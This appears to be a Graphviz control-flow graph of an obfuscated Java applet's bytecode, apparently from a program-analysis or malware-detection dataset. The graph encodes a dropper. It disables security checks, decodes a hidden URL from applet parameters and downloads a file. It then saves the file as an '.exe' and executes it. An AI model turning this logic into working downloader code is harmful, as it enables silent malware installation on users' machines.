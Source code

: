 digraph "" {
    "r0 := @this: uoixhpdUSvpltMyDtzkt"
    "load.r r0"
    "r0 := @this: uoixhpdUSvpltMyDtzkt"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"f\""
    "load.r r0"->"push \"f\"";
    "virtualinvoke <uoixhpdUSvpltMyDtzkt: java.lang.String getParameter(java.lang.String)>"
    "push \"f\""->"virtualinvoke <uoixhpdUSvpltMyDtzkt: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <uoixhpdUSvpltMyDtzkt: java.lang.String getParameter(java.lang.String)>"->"load.r r0";
    "push \"a\""
    "load.r r0"->"push \"a\"";
    "push \"a\""->"virtualinvoke <uoixhpdUSvpltMyDtzkt: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <uoixhpdUSvpltMyDtzkt: void disableSecurity(java.lang.String,java.lang.String)>"
    "virtualinvoke <uoixhpdUSvpltMyDtzkt: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <uoixhpdUSvpltMyDtzkt: void disableSecurity(java.lang.String,java.lang.String)>";
    "new java.lang.StringBuffer"
    "virtualinvoke <uoixhpdUSvpltMyDtzkt: void disableSecurity(java.lang.String,java.lang.String)>"->"new java.lang.StringBuffer";
    "store.r r4"
    "new java.lang.StringBuffer"->"store.r r4";
    "load.r r4"
    "store.r r4"->"load.r r4";
    "load.r r4"->"load.r r0";
    "push \"aFeTrnsBlswS\""
    "load.r r0"->"push \"aFeTrnsBlswS\"";
    "push \"aFeTrnsBlswS\""->"virtualinvoke <uoixhpdUSvpltMyDtzkt: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"
    "virtualinvoke <uoixhpdUSvpltMyDtzkt: java.lang.String getParameter(java.lang.String)>"->"specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"->"new java.lang.StringBuffer";
    "store.r r6"
    "new java.lang.StringBuffer"->"store.r r6";
    "load.r r6"
    "store.r r6"->"load.r r6";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"
    "load.r r6"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "push 5"
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"push 5";
    "store.i $r22"
    "push 5"->"store.i $r22";
    "store.i $r22"->"load.r r4";
    "push 0"
    "load.r r4"->"push 0";
    "push 0"->"push 5";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String substring(int,int)>"
    "push 5"->"virtualinvoke <java.lang.StringBuffer: java.lang.String substring(int,int)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String substring(int,int)>"->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "store.i r0"
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"store.i r0";
    "store.i r0"->"load.r r6";
    "new java.lang.Character"
    "load.r r6"->"new java.lang.Character";
    "dup1.r"
    "new java.lang.Character"->"dup1.r";
    "dup1.r"->"load.r r4";
    "load.i $r22"
    "load.r r4"->"load.i $r22";
    "load.i $r22"->"load.i $r22";
    "load.i $r22"->"push 5";
    "add.i"
    "push 5"->"add.i";
    "add.i"->"virtualinvoke <java.lang.StringBuffer: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String substring(int,int)>"->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "load.i r0"
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"load.i r0";
    "div.i"
    "load.i r0"->"div.i";
    "i2c"
    "div.i"->"i2c";
    "specialinvoke <java.lang.Character: void <init>(char)>"
    "i2c"->"specialinvoke <java.lang.Character: void <init>(char)>";
    "virtualinvoke <java.lang.Character: java.lang.String toString()>"
    "specialinvoke <java.lang.Character: void <init>(char)>"->"virtualinvoke <java.lang.Character: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"
    "virtualinvoke <java.lang.Character: java.lang.String toString()>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"pop";
    "inc.i $r22 5"
    "pop"->"inc.i $r22 5";
    "inc.i $r22 5"->"load.i $r22";
    "load.i $r22"->"load.r r4";
    "virtualinvoke <java.lang.StringBuffer: int length()>"
    "load.r r4"->"virtualinvoke <java.lang.StringBuffer: int length()>";
    "ifcmplt.i load.r r6"
    "virtualinvoke <java.lang.StringBuffer: int length()>"->"ifcmplt.i load.r r6";
    "goto staticget <java.lang.System: java.io.PrintStream out>"
    "ifcmplt.i load.r r6"->"goto staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "goto staticget <java.lang.System: java.io.PrintStream out>"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r r6";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"
    "load.r r6"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "new java.net.URL"
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "push \".e\""
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"push \".e\"";
    "push \"xe\""
    "push \".e\""->"push \"xe\"";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"
    "push \"xe\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "staticinvoke <uoixhpdUSvpltMyDtzkt: java.lang.String sortBy(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"staticinvoke <uoixhpdUSvpltMyDtzkt: java.lang.String sortBy(java.lang.String)>";
    "store.r r0"
    "staticinvoke <uoixhpdUSvpltMyDtzkt: java.lang.String sortBy(java.lang.String)>"->"store.r r0";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"
    "store.r r0"->"virtualinvoke <java.net.URL: java.io.InputStream openStream()>";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"->"store.r r4";
    "new java.io.FileOutputStream"
    "store.r r4"->"new java.io.FileOutputStream";
    "store.r $r22"
    "new java.io.FileOutputStream"->"store.r $r22";
    "load.r $r22"
    "store.r $r22"->"load.r $r22";
    "load.r $r22"->"load.r r0";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "load.r r0"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"pop";
    "push 1024"
    "pop"->"push 1024";
    "newarray"
    "push 1024"->"newarray";
    "newarray"->"store.r r6";
    "store.r r6"->"load.r r4";
    "load.r r4"->"load.r r6";
    "load.r r6"->"push 0";
    "push 0"->"push 1024";
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"
    "push 1024"->"virtualinvoke <java.io.InputStream: int read(byte[],int,int)>";
    "store.i $i7"
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"->"store.i $i7";
    "load.i $i7"
    "store.i $i7"->"load.i $i7";
    "push -1"
    "load.i $i7"->"push -1";
    "ifcmpeq.i load.r $r22"
    "push -1"->"ifcmpeq.i load.r $r22";
    "ifcmpeq.i load.r $r22"->"load.r $r22";
    "load.r $r22"->"load.r r6";
    "load.r r6"->"push 0";
    "push 0"->"load.i $i7";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"
    "load.i $i7"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "goto load.r r4"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"goto load.r r4";
    "virtualinvoke <java.lang.Throwable: void printStackTrace()>"
    "goto load.r r4"->"virtualinvoke <java.lang.Throwable: void printStackTrace()>";
    "return"
    "virtualinvoke <java.lang.Throwable: void printStackTrace()>"->"return";
    "ifcmpeq.i load.r $r22"->"load.r $r22";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r22"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"load.r r4";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r4"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"load.r r0";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "load.r r0"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"store.r r0";
    "store.r r0"->"load.r r0";
    "ifnull load.r r0"
    "load.r r0"->"ifnull load.r r0";
    "ifnull load.r r0"->"load.r r0";
    "virtualinvoke <java.lang.Process: int waitFor()>"
    "load.r r0"->"virtualinvoke <java.lang.Process: int waitFor()>";
    "virtualinvoke <java.lang.Process: int waitFor()>"->"pop";
    "goto return"
    "pop"->"goto return";
}
